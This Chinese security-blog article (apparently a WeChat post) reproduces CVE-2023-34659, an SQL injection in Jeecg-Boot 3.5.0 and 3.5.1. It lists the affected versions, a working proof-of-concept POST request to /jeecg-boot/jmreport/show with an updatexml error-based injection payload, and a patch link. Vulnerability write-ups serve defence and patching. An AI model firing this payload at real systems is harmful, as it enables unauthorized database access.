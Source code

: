#  Jeecg-Boot SQL注入漏洞(CVE-2023-34659)

弥天安全实验室  [ 弥天安全实验室 ](javascript:void\(0\);)

**弥天安全实验室** ![]()

微信号 gh_41292c8e5379

功能介绍 学海浩茫，予以风动，必降弥天之润！

____

___发表于_

收录于合集

#CVE 34 个

#网络安全 42 个

#POC 15 个

#漏洞 55 个

#复现 29 个

  

  

网安引领时代，弥天点亮未来  

  
  

  

  



![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715090934.png)  
 **0x00写在前面**  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715090934.png)  
 **0x01漏洞介绍**  
  

Jeecg-Boot是JeecgBoot社区的一款基于代码生成器的低代码平台。

jeecg-boot 3.5.0和3.5.1 版本存在安全漏洞，该漏洞源于 /jeecg-boot/jmreport/show 接口的 id
参数存在SQL注入漏洞。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715090934.png)  
 **0x02影响版本**  
  

     jeecg-boot 3.5.1 

     jeecg-boot 3.5.0

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715090950.png)

  

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715090934.png)  
 **0x03漏洞复现**  
  

1.访问漏洞环境

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715090952.png)

2.对漏洞进行复现

 **Poc  **

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /jeecg-boot/jmreport/show HTTP/1.1Host: User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1866.237 Safari/537.36Connection: closeContent-Length: 147Content-Type: application/json;charset=UTF-8Accept-Encoding: gzip  
    {  "id": "961455b47c0b86dc961e90b5893bff05",  "apiUrl": "",  "params": {    "id ": "1 ' or ' % 1 % ' like (updatexml(0x3a,concat(1,(version())),1)) or ' % % ' like '"  }}

复现请求

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715090953.png)

3.nuclei工具测试（漏洞不存在）

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715090954.png)

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715090934.png)  
 **0x04修复建议**  
  

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

  * 

    
    
    https://github.com/jeecgboot/jeecg-boot/issues/4976

  

  

弥天简介

学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。

口号 网安引领时代，弥天点亮未来

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715090957.png)

  

知识分享完了

喜欢别忘了关注我们哦~

  

学海浩茫，予以风动，必降弥天之润！

  

   弥  天

安全实验室  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715090958.png)

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看


